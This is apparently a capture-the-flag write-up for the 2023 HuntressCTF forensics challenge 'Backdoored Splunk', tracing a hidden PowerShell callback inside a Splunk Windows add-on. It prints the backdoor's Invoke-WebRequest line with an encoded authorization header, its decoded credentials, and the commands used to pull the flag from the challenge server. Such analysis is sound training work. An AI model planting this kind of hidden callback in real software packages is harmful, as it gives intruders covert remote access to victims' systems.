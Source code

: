 ```yaml
---
title: 2023 HuntressCTF - Backdoored Splunk
date: 2023-11-01T07:00:00-07:00
tags:
  - forensics
image: /2023-HuntressCTF/bs.png
---
```


### Summary
```
Author: Adam Rice  
  
You've probably seen Splunk being used for good, but have you seen it used for evil?  
  
**NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started, but you must put the puzzle pieces together to be retrieve the flag. The connection error to the container is part of the challenge.**  
  
**Download the file(s) below and press the `Start` button on the top-right to begin this challenge.**
```

### Steps

I started the container for the challenge and downloaded ```Splunk_TA_windows.zip``` and unzipped the files in kali.  

![](//2023-HuntressCTF/bsfiles.png)


I decided to start in the bin folder and started to enumerate the various python and PowerShell files. After a few minutes I discovered ```nt6-health.ps1``` in the ```/bin/powershell/``` folder.   Near the middle of the PowerShell script there was an ```Invoke-Webrequest``` command connecting out to ```http://chal.ctf.games:$PORT``` using an authorization header that is base64 encoded. 
```powershell
$OS = @($html = (Invoke-WebRequest http://chal.ctf.games:$PORT -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
```

Decoding the base64 string I discovered the username and password of ```backdoor:use_this_to_authenticate_with_the_deployed_http_server``` so I knew I was on the right track.   

Next started a pwsh session and setup the PowerShell request using the provided  information. Note: the domain and port were provided when starting the container at the start of the challenge. 

```powershell
$headers = @{Authorization="Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg=="}
$uri = "http://chal.ctf.games:32367" 
$response = Invoke-WebRequest -uri $uri -Headers $headers
```

After sending the above PowerShell commands, I executed ```$response``` and found the content was base64 encoded. 

![](/2023-HuntressCTF/bsresponse.png)

Continuing to use PowerShell, I base64 decoded the string and discovered the flag!
```powershell
[System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('ZWNobyBmbGFnezYwYmIzYmZhZjcwM2UwZmEzNjczMGFiNzBlMTE1YmQ3fQ=='))
echo flag{60bb3bfaf703e0fa36730ab70e115bd7}
```

![](/2023-HuntressCTF/bsflag.png)
